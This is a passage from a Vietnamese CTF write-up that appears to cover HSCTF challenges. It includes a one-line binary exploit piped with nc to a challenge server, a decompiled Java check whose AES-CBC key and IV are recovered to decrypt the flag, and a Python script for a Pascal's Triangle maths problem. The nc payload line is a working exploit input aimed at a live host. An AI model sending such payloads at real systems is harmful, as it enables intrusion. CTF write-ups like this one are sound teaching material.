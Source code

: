 ```bash
python -c 'print "\x68\xFB\x89\x04\x08\xC3"' | nc 104.131.90.29 8003
```

### KE1TH :

Bài cho 1 file class. Ta decompile nó ra. Cần chú ý các đoạn sau 

```java
private byte[] iv = { 10, -73, -33, -65, 87, 87, -121, -41, -16, 89, 12, 31, 7, 82, -43, -100 };
...
byte[] bkey = java.util.Base64.getDecoder().decode("/Vl4PKzS9d+Vm/0eePmaYw==");
...
public boolean check(String string)
  {
    return string.equals("-93^35^23^82^-4^57^-128^83^-95^-60^-100^73^40^-86^7^73^-101^3^118^-66^-104^69^121^76^1^-124^-124^-1^-64^29^28^43^2^-25^54^52^-79^-62^11^-43^52^-72^-117^-25^-103^-55^75^-97^");
  } 

```

Chương trình sẽ encrypt chuỗi flag nhập vào bằng AES CBC. Có IV, có key, có ciphertext (chuyển về dạng hex) thì sẽ decrypt được 

Kết quả : 

![Ke1th](http://i.imgur.com/HbpHNRr.png)

### Pascal's Triangle 

Đề https://play.hsctf.com/hsctf-static/PascalsTriangle_293eb01dfec8799fc21339f16b24b38bba261252b588c53a5347d30ebda708cf.pdf 

![pascal](http://i.imgur.com/BCbRAyn.jpg)

Thuật toán cũng không có gì khó. Nhưng cần chú ý đến các điều kiện n,p để tính nhanh và chính xác:

```python
import math
def nCr(n,r):
	f=math.factorial
	try:
		return f(n)/f(r)/f(n-r)
	except:
		return 0

def matt(n,p):
	sum=0
	if n-p>2*p:
		r=2*p+1
	else:
		r=n-p+1
	for i in xrange(r):
		sum+=nCr(n,i+p)*nCr(2*p,i)
	return sum
N=10**9+7
a1=matt(50,30) % N
print '[1] done'
a2=matt(4234,4000) % N
print '[2] done'
a3=matt(3000,1234) % N
print '[3] done'
a4=matt(2017,34) % N
print '[4] done'
a5=matt(4000,3000) % N
print '[5] done'
```